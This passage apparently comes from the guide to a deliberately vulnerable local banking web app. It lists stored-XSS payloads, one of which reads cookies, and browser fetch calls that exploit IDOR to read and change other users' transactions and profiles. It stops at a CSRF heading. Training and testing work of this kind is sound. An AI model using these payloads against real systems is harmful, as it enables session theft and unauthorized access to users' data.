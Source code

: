 **Test Case:**
- Login as any user
- Navigate to Profile Management
- Full Name field: `<img src=x onerror=alert('XSS')>`
- Update profile
- When admin views this profile, the script executes

**Payloads to try:**
```html
<img src=x onerror=alert(document.cookie)>
<script>alert('XSS')</script>
<svg/onload=alert('XSS')>
```

---

### 3. Insecure Direct Object Reference (IDOR)

**Unauthorized Data Access**

IDOR vulnerabilities allow attackers to access resources belonging to other users by manipulating object references.

**Test Case - View Other Users' Transactions:**
- Login as `john_doe` (ID: 2)
- Open browser console (F12)
- Execute:
```javascript
fetch('http://localhost:5000/api/transactions/1', {
  credentials: 'include'
}).then(r => r.json()).then(console.log)
```
- Result: Access admin's transactions without authorization

**Test Case - Modify Other Users' Profiles:**
```javascript
fetch('http://localhost:5000/api/profile/1', {
  method: 'PUT',
  headers: { 'Content-Type': 'application/json' },
  credentials: 'include',
  body: JSON.stringify({
    fullName: 'Modified Name',
    email: 'modified@email.com'
  })
}).then(r => r.json()).then(console.log)
```

---

### 4. Cross-Site Request Forgery (CSRF)

**Unauthorized Actions**

CSRF tricks authenticated users into performing unintended actions by exploiting their active session.
